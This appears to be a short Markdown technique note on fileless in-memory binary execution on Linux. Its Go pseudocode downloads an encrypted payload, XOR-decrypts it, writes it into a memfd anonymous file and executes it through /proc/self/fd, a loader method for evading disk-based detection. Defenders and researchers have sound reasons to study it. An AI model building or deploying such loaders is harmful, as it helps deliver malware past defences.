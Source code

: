 - In-memory binary file execution
	- Use `memfd` syscall to create a virtual file entirely in memory and then use the file's symbolic link (`/proc/self/fd/<id>`) to execute it.
	- Basic process:
		1. Encrypt/encode payload
		2. Host and download payload
		3. Decrypt payload in memory and initialize "anonymous" file using `memfd`
		4. Copy decrypted payload into memory-only file and execute
- High-level pseudocode:
```Go
func main() {
	 // Download the encrypted payload
	 data, err := getURLContent(path)
	 // Decrypt it using XOR operation
	 decryptedData := decryptXor(data, []byte("verylongkey"))
	 // Create an anonymous file in memory
	 mfd, err := memfd.Create()
	 // Write the decrypted payload to the file
	 mfd.Write(decryptedData)
	 // Get the symbolic link to the file
	 filePath := fmt.Sprintf("/proc/self/fd/%d", mfd.Fd())
	 // Execute the file
	 cmd := exec.Command(filePath)
	 out, err := cmd.Run()
}
```